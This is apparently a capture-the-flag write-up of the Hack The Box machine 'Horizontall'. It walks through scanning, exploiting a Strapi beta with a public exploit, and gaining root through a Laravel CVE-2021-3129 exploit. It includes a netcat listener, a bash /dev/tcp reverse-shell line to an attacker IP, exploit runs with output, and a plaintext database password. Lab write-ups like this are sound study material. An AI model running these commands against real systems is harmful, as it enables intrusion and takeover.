

# Horizontall

- ip:10.10.11.105
- user : 22e9fce6322c2c3fc5f20157f7ad475d
- system : 2efb0184e3c2311136042f01aab55cd4

## nmap

- only 22,80 open

```
$sudo nmap -p- --min-rate 10000 -oA scans/nmap-allports_tcp 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-23 17:31 CET
Warning: 10.10.11.105 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.105
Host is up (0.10s latency).
Not shown: 65433 closed tcp ports (reset), 100 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## feroxbuster

```
$feroxbuster -u http://horizontall.htb -x php,js,html

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://horizontall.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php, js, html]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        7l       13w      194c http://horizontall.htb/js
301        7l       13w      194c http://horizontall.htb/css
301        7l       13w      194c http://horizontall.htb/img
200        1l       43w      901c http://horizontall.htb/index.html
[####################] - 1m    479984/479984  0s      found:4       errors:0      
[####################] - 1m    119996/119996  1046/s  http://horizontall.htb
[####################] - 1m    119996/119996  1047/s  http://horizontall.htb/js
[####################] - 1m    119996/119996  1045/s  http://horizontall.htb/css
[####################] - 1m    119996/119996  1045/s  http://horizontall.htb/img
```


## website

- add `10.10.11.105 horizontall.htb` to `/etc/hosts`

- on http://horizontall.htb link to app js in <head> 
  - 

- inside app.c68eb462.js
  - 

- add `10.10.11.105 api-prod.horizontall.htb` to `/etc/hosts`

- http://api-prod.horizontall.htb/reviews returns (first access)
```
[{"id":1,"name":"wail","description":"This is good service","stars":4,"created_at":"2021-05-29T13:23:38.000Z","updated_at":"2021-05-29T13:23:38.000Z"},{"id":2,"name":"doe","description":"i'm satisfied with the product","stars":5,"created_at":"2021-05-29T13:24:17.000Z","updated_at":"2021-05-29T13:24:17.000Z"},{"id":3,"name":"john","description":"create service with minimum price i hop i can buy more in the futur","stars":5,"created_at":"2021-05-29T13:25:26.000Z","updated_at":"2021-05-29T13:25:26.000Z"}]
```

- /admin redirects to http://api-prod.horizontall.htb/admin/auth/login
  - 
- strapi version `3.0.0-beta.17.4` 
  - 
- https://www.exploit-db.com/exploits/50239
  - 


- run exploit_50239.py
- listen `nc -nvlp 6969`
- reverse shell `bash -i >& /dev/tcp/10.10.14.134/6969 0>&1`


```
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
<[user flag]>
```

# mysql

```
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

`db: strapi`  
`port: 3306`  
`user: developer`  
`pw: #J!:F9Zt2u`  

# ssh

`ssh -i key -L 8000:127.0.0.1:8000 strapi@horizontall.htb`
- where `key` is the private key (generate with `ssh-keygen`) and `key.pub` has been copied to remote machine `~/.ssh/authorized_keys`

- makes local services on the remote machine available on my machine via ssh portforwarding

- website on port 8000
  - 

- Laravel v8
  - 
- 2 potential exploits
  
- getting working code from https://github.com/nth347/CVE-2021-3129_exploit

```
$python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'id'
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2673, done.
remote: Counting objects: 100% (1015/1015), done.
remote: Compressing objects: 100% (576/576), done.
remote: Total 2673 (delta 414), reused 883 (delta 308), pack-reused 1658
Receiving objects: 100% (2673/2673), 400.37 KiB | 3.31 MiB/s, done.
Resolving deltas: 100% (1056/1056), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

```
$python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'cat /root/root.txt'
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

<[system flag]>

[i] Trying to clear logs
[+] Logs cleared
```